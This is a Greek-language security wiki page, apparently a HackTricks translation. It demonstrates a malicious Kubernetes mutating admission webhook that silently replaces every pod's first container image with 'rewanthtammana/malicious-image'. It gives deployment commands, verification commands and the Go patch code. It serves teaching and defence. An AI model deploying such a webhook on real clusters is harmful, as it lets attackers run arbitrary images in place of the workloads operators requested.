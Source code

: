 **Παράδειγμα από** [**https://blog.rewanthtammana.com/creating-malicious-admission-controllers**](https://blog.rewanthtammana.com/creating-malicious-admission-controllers):
```bash
git clone https://github.com/rewanthtammana/malicious-admission-controller-webhook-demo
cd malicious-admission-controller-webhook-demo
./deploy.sh
kubectl get po -n webhook-demo -w
```
Ελέγξτε την κατάσταση για να δείτε αν είναι έτοιμο:
```bash
kubectl get mutatingwebhookconfigurations
kubectl get deploy,svc -n webhook-demo
```
![mutating-webhook-status-check.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1628433436353/yHUvUWugR.png?auto=compress,format&format=webp)

Στη συνέχεια, αναπτύξτε ένα νέο pod:
```bash
kubectl run nginx --image nginx
kubectl get po -w
```
Όταν μπορείτε να δείτε το σφάλμα `ErrImagePull`, ελέγξτε το όνομα της εικόνας με μία από τις ερωτήσεις:
```bash
kubectl get po nginx -o=jsonpath='{.spec.containers[].image}{"\n"}'
kubectl describe po nginx | grep "Image: "
```
![malicious-admission-controller.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1628433512073/leFXtgSzm.png?auto=compress,format&format=webp)

Όπως μπορείτε να δείτε στην παραπάνω εικόνα, προσπαθήσαμε να εκτελέσουμε την εικόνα `nginx`, αλλά η τελική εκτελούμενη εικόνα είναι `rewanthtammana/malicious-image`. Τι συνέβη μόλις!!;

#### Τεχνικές λεπτομέρειες

Το σενάριο `./deploy.sh` δημιουργεί έναν μεταβαλλόμενο ελεγκτή εισόδου webhook, ο οποίος τροποποιεί τα αιτήματα προς το Kubernetes API όπως καθορίζεται στις γραμμές ρύθμισης παραμέτρων του, επηρεάζοντας τα αποτελέσματα που παρατηρούνται:
```
patches = append(patches, patchOperation{
Op:    "replace",
Path:  "/spec/containers/0/image",
Value: "rewanthtammana/malicious-image",
})
```
Το παραπάνω απόσπασμα αντικαθιστά την πρώτη εικόνα κοντέινερ σε κάθε pod με `rewanthtammana/malicious-image`.

## Παράκαμψη OPA Gatekeeper

{{#ref}}
../kubernetes-opa-gatekeeper/kubernetes-opa-gatekeeper-bypass.md
{{#endref}}

## Καλές Πρακτικές

